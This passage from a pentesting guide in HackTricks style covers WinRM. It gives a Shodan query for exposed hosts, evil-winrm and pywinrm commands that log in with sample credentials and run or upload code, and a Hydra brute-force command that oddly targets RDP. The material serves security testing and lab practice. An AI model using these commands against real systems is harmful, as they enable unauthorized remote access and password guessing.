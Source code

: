 ```ruby
end
puts("Exiting with code #{output.exitcode}")
end
```
## Shodan

* `port:5985 Microsoft-HTTPAPI`

## Reference

* [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/)

## Automatske komande HackTricks
```
Protocol_Name: WinRM    #Protocol Abbreviation if there is one.
Port_Number:  5985     #Comma separated if there is more than one.
Protocol_Description: Windows Remote Managment        #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for WinRM
Note: |
Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

sudo gem install winrm winrm-fs colorize stringio
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p ‘MySuperSecr3tPass123!’

https://kalilinuxtutorials.com/evil-winrm-hacking-pentesting/

ruby evil-winrm.rb -i 10.10.10.169 -u melanie -p 'Welcome123!' -e /root/Desktop/Machines/HTB/Resolute/
^^so you can upload binary's from that directory        or -s to upload scripts (sherlock)
menu
invoke-binary `tab`

#python3
import winrm
s = winrm.Session('windows-host.example.com', auth=('john.smith', 'secret'))
print(s.run_cmd('ipconfig'))
print(s.run_ps('ipconfig'))

https://book.hacktricks.xyz/pentesting/pentesting-winrm

Entry_2:
Name: Hydra Brute Force
Description: Need User
Command: hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} rdp://{IP}
```
<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>
